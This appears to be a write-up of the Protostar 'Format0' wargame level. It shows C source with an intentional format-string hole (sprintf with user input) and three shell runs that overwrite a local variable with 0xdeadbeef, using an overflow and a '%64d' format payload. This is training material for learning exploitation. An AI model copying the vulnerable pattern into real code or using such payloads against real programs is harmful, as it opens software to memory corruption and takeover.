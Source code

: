 #### Format0

###### About

- This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.
- Hints
	- This level should be done in less than 10 bytes of input.
	- “Exploiting format string vulnerabilities”
- This level is at ``/opt/protostar/bin/format0``

``format0.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./format0 AAAA
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format0 $(python -c "print 'A'*64 + '\xef\xbe\xad\xde'")
you have hit the target correctly :)
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format0 `python -c "print '%64d\xef\xbe\xad\xde'"`
you have hit the target correctly :)
user@protostar:/opt/protostar/bin$
```